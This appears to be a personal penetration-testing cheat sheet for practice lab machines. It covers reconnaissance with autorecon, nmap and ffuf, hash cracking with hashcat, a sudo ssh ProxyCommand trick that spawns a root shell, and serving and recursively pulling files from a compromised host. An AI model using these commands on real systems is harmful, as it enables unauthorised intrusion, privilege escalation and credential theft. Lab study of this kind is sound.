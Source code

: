 ## For each Project / Box make a folder for Three tabs :
	
	enum
			nmap
	exploit
	
	privesec (privilege escalation)

$ sudo autorecon (ip adress)

After the autorecon it will automatically create 4 folders exploit, loot, report, and scans.

Under the scans folder you can navigate to the xml folder and it will have the full can labeled "full_tcp_nmap.txt"

Then you want to go to the scan and make a folder for each individual port 

check the showmount and make a note 

Can always use searchsploit for openssh version or whatever 

Check to make sure non of the "Low Hanging Fruit " is able such as SSH, FTP, NFS... 


Then WEB 80 / 443 /  8080

first command fuff -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u htttp://<ip>/FUZZ

view page source 





	...Useful Commands 


NMAP 
			
	$nmap -p- -T5 <ip> -v 
	$nmap -p (ports from previous scan Ex. 22,25,80 ) -A <ip> -v
	
	
Commands

	* When have a shell can switch to sudo using this command:
			$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
	
			
Cracking Hashes 

	$ hashcat -a 0 -m 1000 hash.list /usr/share/wordlists/rockyou.txt.gz 

	
	
When not able to access web server through url run in terminal 	
		
		 ( cozyhosting.htb = web server )	
	
	$ sudo sh -c 'echo "10.10.11.230 cozyhosting.htb" >> /etc/hosts'

	* was able to refresh and see the web domain			
		


SSH 

		$ ssh -i id_rsa <username>@<IP> 


	run this in shell when trying to retrieve quick files 

		$ python3 -m http.server 1234(Selected Port)

	Then navigate to URL http://<ip>:<port>/

		$ wget [http://<ip>:<port>/](http://10.10.11.227:8000/)[(intented](http://10.10.11.227:8000/(intented) file)


Continuous Downloading from web server

 		$ wget -r -np -nH --cut-dirs=1 -R "index.html*" http://10.129.202.64:1234/ytb95ytb.default-release



Once on the Linux machine or shell in general run for any clues 
		$ cat ~/.bash_history 
	
